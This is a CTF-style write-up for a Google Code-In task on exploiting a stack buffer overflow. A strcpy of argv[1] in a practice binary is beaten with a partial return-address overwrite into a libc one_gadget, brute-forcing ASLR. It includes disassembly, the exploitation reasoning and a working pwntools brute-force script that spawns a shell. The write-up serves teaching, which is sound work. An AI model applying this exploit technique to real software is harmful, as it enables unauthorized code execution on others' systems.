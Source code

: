 +++
title = "GCI - Fedora Project - Exploiting a Buffer Overflow Vulnerability"
date = 2019-12-15
aliases = ["/posts/5df6fd3b0898260951d4389b-gci-fedora-project-exploiting-a-buffer-overflow-vulnerability"]
[taxonomies]
tags = ["google-code-in", "binary-exploitation", "buffer-overflow", "aslr", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge

We are given a binary to exploit. By running `checksec` on it, we see that the binary has the following protections:
[show-line-numbers]: false
```
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

Because the binary has NX, we cannot place executable shell code in a buffer and then jump to it. PIE allows the code 
section of the binary to be located anywhere in memory. This means that we don't know the address of functions within 
the binary; however, we still know relative offsets.


## Reverse Engineering

```
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp                                  # Setup Stack
   0x0000000000001146 <+1>:     mov    rbp,rsp                              
   0x0000000000001149 <+4>:     sub    rsp,0x110                            # Allocate 0x110 bytes on stack
   0x0000000000001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi            # Copies edi into stack offset 0x104
   0x0000000000001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi            # Copies rsi into stack offset 0x110
   0x000000000000115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]            # Copies value of pointer into rax
   0x0000000000001164 <+31>:    add    rax,0x8                              # Adds size_t
   0x0000000000001168 <+35>:    mov    rdx,QWORD PTR [rax]                  # Copies the value of the pointer [rax + 8] into rdx
   0x000000000000116b <+38>:    lea    rax,[rbp-0x100]                      # Loads the address of [rbp - 0x100] into rax
   0x0000000000001172 <+45>:    mov    rsi,rdx                              # rsi = rdx
   0x0000000000001175 <+48>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001178 <+51>:    call   0x1030 <strcpy@plt>                  # Calls strcpy(rsi, rdi) ; strcpy ([rbp - 0x100], argv[1])
   0x000000000000117d <+56>:    lea    rax,[rbp-0x100]                      # Loads address of [rbp-0x100] into rax
   0x0000000000001184 <+63>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001187 <+66>:    call   0x1040 <puts@plt>                    # puts(rdi)
   0x000000000000118c <+71>:    mov    eax,0x0                              # return 0
   0x0000000000001191 <+76>:    leave                                       
   0x0000000000001192 <+77>:    ret                                         
End of assembler dump.
```

<!-- more --> 

We can see that `argv[1]` is copied into a 0x100 byte buffer on the stack. However, there are no checks on the size of `argv[1]`. This is plainly a stack overflow vulnerability. 

## Exploit

Now that we have an understanding of what the binary does, we can construct a payload to get code execution. Since the canary is not enabled, we can overwrite the return address. However, because of PIE and ASLR, we don't have any clear targets to jump to.


### Where do we jump?

The binary is dynamically linked and uses the system libc. We can find targets within the binary, when jumped to, result in a call to `execve("/bin/sh", NULL, NULL)` and lead to "a shell".  The tool [one_gadget](https://github.com/david942j/one_gadget) finds offsets to these one gadgets within a given libc binary. Running `one_gadget libc.so.6` gives the following output:

![](5df7042c0898260951d4389c.png)


However, we don't know the base address that libc is loaded at.


### How?

Generally, the libc runtime handles initializes itself before calling `main`. This means that when `main` returns, we end up within libc. In fact, in this [asciinema](https://asciinema.org/a/JRs1KT1HQCoDUSDAmW1r6CCcC), we see that `main` returns to `__libc_start_main` within libc. 

If we overflow the buffer, we can overwrite this address. We could overwrite the entire return pointer, but what if we only overwrote it partially? This is known as a partial overwrite. Since all functions within libc have the same base address, we can overwrite the lower bytes of the return pointer to jump to any known offset within libc.

### One small problem

When `strcpy` is called, it adds a null byte to the end of the destination buffer. If we attempt a partial overwrite, this will result `0x00` being placed within the return pointer.

To overcome this, we can bruteforce ASLR by repeatedly running the program until libc is loaded in a position that matches the overwritten return pointer. We need to bruteforce 1.5 bytes (because the one_gadget is `4f2c5`, we only need to bruteforce the upper half of `0x?4` and the null byte before it). This means that, on average, we will need to execute the program `4096` times before successfully reaching a shell.

## Full Script

{{ asciinema(id="vaUS0kLREa4r92cFJuaipXW5u") }}

```python
from pwn import *

while True:
        try:
                r = process(['./exploitme', 'A'*264 + '\xc5\xf2\x04'])
                r.sendline('ls')
                print(r.can_recv())
                r.interactive()
        except EOFError:
                pass
```


> This is a writeup for this [Google Code-In task](https://codein.withgoogle.com/dashboard/task-instances/5481487256780800/)
